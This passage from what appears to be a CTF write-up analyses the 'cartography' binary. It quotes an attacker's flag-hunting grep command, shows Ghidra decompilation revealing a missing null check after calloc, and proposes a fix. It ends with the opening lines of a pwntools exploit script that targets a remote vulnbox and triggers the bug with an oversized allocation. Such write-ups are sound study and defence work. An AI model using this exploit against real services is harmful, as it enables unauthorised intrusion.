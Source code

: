 Game over, "1337 hax0r".

BTW, our attacker sent this from the previous PID, it would have been buffered and landed in the shell if not killed:

```
read(0, "grep -Pahr FAUST_ data\n", 4096) = 23
```

Another data point to create a signature to track this attacker.

    
### Decompile with Ghidra

```c
  case 0:
    puts("Enter the sector\'s size:");
    pcVar7 = fgets(local_f8,0x20,stdin);
    if (pcVar7 == (char *)0x0) goto LAB_00400f50;
    __n = strtoll(local_f8,&local_100,10);
    if ((*local_100 == '\n' || *local_100 == '\0') && (-1 < (long)__n)) {
      free(__ptr);
      local_108 = __n;
      __ptr = calloc(1,__n);
      puts("Sector created!");
    }
    else {
      printf("Invalid size for sector: %s\n",local_f8);
    }
    goto LAB_00400a00;
```

At this point there's no need to examine the entire binary, the vulnerability is now obvious; no check that `__ptr` is `null`.

Something like this is missing:

```c
if (__ptr == NULL) {
	printf("Cannot allocate memory\n");
	local_108 = 0; # very important
} else {
	puts("Sector created!");
}
```

> `local_108` must be zero'd or all the other logic will still permit the exploit.


## Attack

Given all the analysis, the exploit is rather simple:

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./cartography')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('libc-database/db/libc6_2.28-10_amd64.so')

#p = process(['stdbuf','-i0','-o0','-e0',binary.path])
p = remote('vulnbox', 6666)

# null pointer
p.sendlineafter('>','0')
p.sendlineafter('Enter the sector\'s size:\n',str(2**48 - 1))

```
